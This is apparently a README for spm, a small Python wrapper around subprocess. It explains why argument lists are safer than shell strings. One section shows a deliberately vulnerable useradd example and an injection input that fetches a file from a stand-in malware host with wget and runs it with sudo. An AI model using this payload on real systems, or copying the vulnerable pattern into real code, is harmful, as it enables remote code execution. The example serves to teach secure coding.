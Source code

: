 spm (SubProcessesManager)
=========================

.. code:: python

    >>> import spm
    >>> spm.run('echo', '-n', 'hello world').stdout.read()
    'hello world'
    >>> import functools
    >>> git = functools.partial(spm.run, 'git')
    >>> git('status', '-z').stdout.read().split(b'\x00')
    [' M spm.py', '']

This provides a very thin KISS layer on top of the python standard library's
``subprocess`` module. This library supports Python 2 and Python 3.

This makes it easy to pipe subprocesses, and pipe subprocesses input/output
to files.

It only has four rules:

* Simple programming interface
* Don't reimplement the wheel. (It tries uses the ``subprocess`` standard
  module as much as possible) 
* It only does one thing, and try to do it well.
* Use argument list instead of one command string.

Secure subprocess invocation
----------------------------

For those who don't understand the last rule. There are two ways to ways to
invoke subprocesses in python: One method is insecure, the other one is
secure.

.. code:: python

    import subprocess

    # Insecure subprocess invocation
    subprocess.check_call("echo foo", shell=True)
    # Secure subprocess invocation
    subprocess.check_call(['echo', 'foo'])

The second one is secure, because it prevents shell code injection. If we over
simplify, the first method, could be implemented this way:

.. code:: python

    def insecure_check_call(command_line):
        """
        Same as check_call(shell=True)
        """
        # Runs /bin/bash -c "the given command line"
        subprocess.check_call(['/bin/bash', '-c', command_line])


Let's use the following code as example:

.. code:: python

    import subprocess
    # Get insecure and unchecked data from a user
    from somewhere import get_login_from_user()

    def create_user():
        cmd = "sudo useradd '{}'".format(get_login_from_user())
        subprocess.check_call(cmd)

A user can inject code if they enter the login
``' || wget http://malware.example.com/malware -O /tmp && sudo /tmp/malware``.
Because this will execute:
``sudo user '' || wget [...] -O /tmp && sudo /tmp/malware``.

Why another library?
--------------------

.. image:: https://imgs.xkcd.com/comics/standards.png
   :alt: XKCD Comic strip: "How Standards Profilef
   :align: center

Here are the existing libraries:

* sh_: doing too much. The programming interface for piping commands is
  complex and bad.
* execute_: old, vulnerable to shell injection.
* sarge_: doing too much, vulnerable to shell injection.

And many other are unmaintained or worse.

.. _sh: https://amoffat.github.io/sh/
.. _execute: https://pythonhosted.org/execute/
.. _sarge: http://sarge.readthedocs.org/en/latest/


What do you mean by KISS?
-------------------------

KISS lost its original sense. Now it's just an hipster word which means "just
use my library because it's cool".

Here I mean KISS in its original sense: Keep It Simple, Stupid.

* this library is one file with less than 500 lines (excluding testing)
* this library has two functions: ``pipe()`` and ``run()``
